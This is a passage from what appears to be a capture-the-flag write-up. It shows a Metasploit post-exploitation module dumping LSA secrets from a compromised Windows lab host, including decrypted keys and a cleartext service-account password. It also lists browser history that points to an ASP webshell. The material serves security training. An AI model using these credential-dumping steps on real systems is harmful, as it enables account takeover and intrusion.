msf post(lsa_secrets) > info

       Name: Windows Enumerate LSA Secrets
     Module: post/windows/gather/lsa_secrets
   Platform: Windows
       Arch:
       Rank: Normal

Provided by:
  Rob Bathurst <rob.bathurst@foundstone.com>

Compatible session types:
  Meterpreter

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SESSION  1                yes       The session to run this module on.

Description:
  This module will attempt to enumerate the LSA Secrets keys within
  the registry. The registry value used is:
  HKEY_LOCAL_MACHINE\Security\Policy\Secrets\. Thanks goes to Maurizio
  Agazzini and Mubix for decrypt code from cachedump.

msf post(lsa_secrets) > run

[*] Executing module against HHC17-SMB-SERVE
[*] Obtaining boot key...
[*] Obtaining Lsa key...
[*] Vista or above system
[+] Key: DPAPI_SYSTEM
 Decrypted Value: ,2#B@:o~NY*#(1]`Vx

[+] Key: NL$KM
 Decrypted Value: @.tUb#=VQc_Y%&P1`gG;g1p0I)me& }Z/zXP`

[+] Key: _SC_agrabber
 Username: .\alabaster_snowball
 Decrypted Value: .Carried_mass_it_reader1

[*] Writing to loot...
[*] Data saved in: /home/vladg/.msf4/loot/20180109050031_default_10.142.0.8_registry.lsa.sec_967944.txt
[*] Post module execution completed
#+END_SRC

We can verify this with our hash, or via RDP: alabaster's password is
=Carried_mass_it_reader1=, which matches what we got before.

At this point, the system is pretty well compromised. We were unable to crack the sysadmin user's hash, or pivot from this system to other systems using our privileged access.

We did, however, find some neat things in the Firefox browsing history of the sysadmin user:

#+BEGIN_SRC 
'https://www.python.org/downloads/release/python-362/'
'https://www.google.com/search?q=non+sucky+servaice+manager&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'https://nssm.cc/release/nssm-2.24.zip'
'http://localhost/'
'https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx'
'http://localhost/test.aspx'
'https://stackoverflow.com/questions/4388066/the-page-you-are-requesting-cannot-be-served-because-of-the-extension-configura'
'https://www.google.com/search?q=how+to+use+aspnet_regiis&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'https://www.google.com/search?q=aspnet_regiis+%3A+The+term+%27aspnet_regiis%27+is+not+recognized+as+the+name+of+a+cmdlet&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'http://exescan.net/exes/a/aspnet_regiis-exe-file'
'https://www.google.com/search?q=how+to+configure+asp+to+run+on+iis&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'https://docs.microsoft.com/en-us/iis/application-frameworks/scenario-build-an-aspnet-website-on-iis/configuring-step-1-install-iis-and-asp-net-modules'
'https://www.google.com/search?q=enable+asp+on+windows+2016&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'https://docs.microsoft.com/en-us/biztalk/core/how-to-enable-asp-net-4-0-for-published-web-services'
'https://az764295.vo.msecnd.net/stable/dcee2202709a4f223185514b9275aa4229841aa7/VSCodeSetup-x64-1.18.0.exe'
'http://127.0.0.1/'
'http://127.0.0.1/evil.aspx'
'http://localhost/cmd.aspx'
'http://localhost/jerry.aspx'
'http://localhost/ok.txt'
#+END_SRC
